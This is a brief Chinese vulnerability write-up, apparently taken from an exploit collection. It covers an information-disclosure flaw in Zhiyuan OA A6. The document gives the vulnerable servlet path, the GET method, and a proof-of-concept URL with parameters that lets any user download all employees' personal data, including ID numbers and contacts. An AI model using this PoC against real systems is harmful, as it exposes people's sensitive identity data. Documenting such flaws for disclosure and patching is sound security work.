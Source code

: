 # 致远 OA A6 敏感信息泄露（二）

> 原文：[http://book.iwonder.run/0day/致远 oa/8.html](http://book.iwonder.run/0day/致远 oa/8.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet 
```

##### 漏洞详情:

```
版本:A6 只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0 
```

